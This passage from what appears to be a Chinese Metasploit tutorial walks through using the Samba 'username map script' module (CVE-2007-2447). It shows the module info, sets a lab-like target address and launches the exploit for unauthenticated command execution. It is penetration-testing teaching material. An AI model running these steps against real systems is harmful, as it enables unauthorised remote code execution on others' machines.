 为了更加直观，尝试攻击可以产生会话的漏洞，选择另一个攻击模块。
```bash
# 利用Samba3.0.20到3.0.25rc中的命令执行漏洞
msf >  use exploit/multi/samba/usermap_script
msf exploit(multi/samba/usermap_script) > info

#输出
       Name: Samba "username map script" Command Execution
     Module: exploit/multi/samba/usermap_script
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2007-05-14

Provided by:
  jduck <jduck@metasploit.com>

Available targets:
  Id  Name
  --  ----
  0   Automatic

Basic options:
  Name   Current Setting  Required  Description
  ----   ---------------  --------  -----------
  RHOST                   yes       The target address
  RPORT  139              yes       The target port (TCP)

Payload information:
  Space: 1024

Description:
  This module exploits a command execution vulnerability in Samba
  versions 3.0.20 through 3.0.25rc3 when using the non-default
  "username map script" configuration option. By specifying a username
  containing shell meta characters, attackers can execute arbitrary
  commands. No authentication is needed to exploit this vulnerability
  since this option is used to map usernames prior to authentication!

References:
  https://cvedetails.com/cve/CVE-2007-2447/
  OSVDB (34700)
  http://www.securityfocus.com/bid/23972
  http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534
  http://samba.org/samba/security/CVE-2007-2447.html

# 配置参数
msf exploit(multi/samba/usermap_script) > show missing
# 输出
Module options (exploit/multi/samba/usermap_script):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address

msf exploit(multi/samba/usermap_script) > set RHOST 192.168.56.7
# 输出
RHOST => 192.168.56.7

# 攻击
msf exploit(multi/samba/usermap_script) > exploit

```